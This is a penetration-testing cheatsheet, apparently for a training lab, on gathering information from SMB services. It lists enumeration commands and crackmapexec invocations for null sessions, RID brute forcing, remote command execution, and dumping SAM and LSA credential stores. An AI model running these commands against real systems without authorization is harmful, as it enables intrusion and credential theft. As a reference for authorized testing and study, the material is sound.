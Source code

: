 # Information Gathering Cheatsheet

## SMB

### Common Tools and Commands

Use nbtscan from [here](http://www.unixwiz.net/tools/nbtscan.html) instead of the version in Kali because of reasons.

```
enum4linux -a 10.11.1.136
nmblookup -A 10.11.1.136
smbclient //MOUNT/share -I 10.11.1.136 -N
smbclient -L //10.11.1.136
rpcclient -U "" 10.11.1.136
mount //10.11.1.5/share /mnt # Mount open shares
```

### Checking SMB Vulnerabilities

```
bash -c "nmap -p 139,445 --script=smb-vuln* 10.11.1.136"
```

### Check For Common SMB Issues

Null Sessions:
```
crackmapexec smb 10.11.1.136 -u '' -p '' --shares
```

RID Brute Forcing:

```
crackmapexec smb 10.11.1.136 -u '' -p '' --rid-brute
```

Code Execution:

```
crackmapexec smb 10.11.1.136 -u '' -p '' -x 'whoami'
```

Read SAM/LSA:

```
crackmapexec smb 10.11.1.136 -u '' -p '' --sam

crackmapexec smb 10.11.1.136 -u '' -p '' --lsa
```

Download Whole Share
```
smbclient '\\server\share'
mask ""
recurse ON
prompt OFF
cd 'path\to\remote\dir'
lcd '/path/to/download/to/'
mget *
```

### Determine Remote SMB Version

```
ngrep -i -d tap0 's.?a.?m.?b.?a.*[[:digit:]]'
smbclient -L //<IP>
```

## Coldfusion

Check [this](https://nets.ec/Coldfusion_hacking).

## Resources

[Penetration Testing Tools Cheat Sheet](https://highon.coffee/blog/penetration-testing-tools-cheat-sheet/)
[HighOn.Coffee Nmap Cheatsheet](https://highon.coffee/blog/nmap-cheat-sheet/)
